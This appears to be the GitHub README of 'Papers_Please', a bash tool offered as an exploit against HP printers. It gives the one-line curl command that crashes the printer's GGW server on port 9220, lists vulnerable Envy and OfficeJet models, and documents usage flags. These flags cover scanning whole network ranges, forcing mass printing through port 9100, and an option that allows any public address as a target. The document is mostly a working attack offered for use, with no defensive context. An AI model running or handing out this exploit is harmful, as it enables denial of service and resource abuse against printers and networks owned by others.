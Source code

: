 
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to perform a remote **Denial of Service** against an HP printer by crashing the internal GGW server. Additionally, Papers_Please is capable of **mass printing** documents from one or more printers on a network.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |
| HP OfficeJet Pro 6978 |  True  |  True  |  Version: 1.0  |

**NOTE**:<br>
While the above list provides known exploitable models, these do not need to be known to an attacker prior to exploiting.

## Required Software

Android users will need to install <a href="https://termux.com/">Termux</a> from the <a href="https://play.google.com/store/apps/details?id=com.termux">Google Play Store</a>.<br>
Termux is only available for **Android 5.0 and later**.

| Package | Version | Platform |
| :---:   | :---:   | :---:    |
| Netcat-openbsd |  1.105-7ubuntu1  |  x86-64  |
| Grep (GNU) |  2.25  |  x86-64  |
| Sed (GNU) |  4.2.2  |  x86-64  |
| Busybox |  1.30.1  |  Android  |
| Iproute2 |  4.3.0  |  x86-64  |
| Parallel | 20161222 (x86-64),20180222 (Android) |  Both  |
| Curl |  7.47.0-1ubuntu2.12  |  x86-64  |
| Bc |  1.06.95 (x86-64),1.07.1 (Android)  |  Both  |

**NOTE**:<br>
Exact software versions are not required. They are only present as a reference for debugging purposes. 

## How To Use

Papers_Please is designed to be quick and simple to use, often times not requiring flags in order to run. You can specify a **network range** with the `--network` flag or a **single host** with the `--target` flag. You can **optimize** Papers_Please through the `--jobs`, `--proc`, and `--slots` flags. Optimizations are active by default with values of: 0, 1, and 252 respectively. By default or when passing the `--network`, flag Papers_Please will automatically scan for printers. Automatic scanning can be disabled with the `--no-scan` flag. Additionally Papers_Please can **mass print** by passing the `--papyrus` flag. This will cause Papers_Please to connect to port 9100 (JetDirect) on the remote host, then immediately disconnect. Which in some cases causes a document to be printed. Finally, to **disable all address restrictions**, pass the `--allow-all` flag. By specifying said flag, all public and private IP addresses will be allowed, in addition to all CIDR prefixes less-than or equal to 30.

## Usage

```
./Papers_Please.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

-a, --allow-all		    All address ranges 
			    are allowed. BE CAREFUL 
			    in this mode as it
			    permits scanning of
			    ANY address without
			    restriction.

--no-scan		    Disables the automatic
			    printer discovery scan.
			    By disabling this function
			    the attacker might not
			    know how many hosts were
			    successfully brought
			    down.

--no-check		    Will skip dependency
                            checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print help
			    dialog then
			    exit.
```
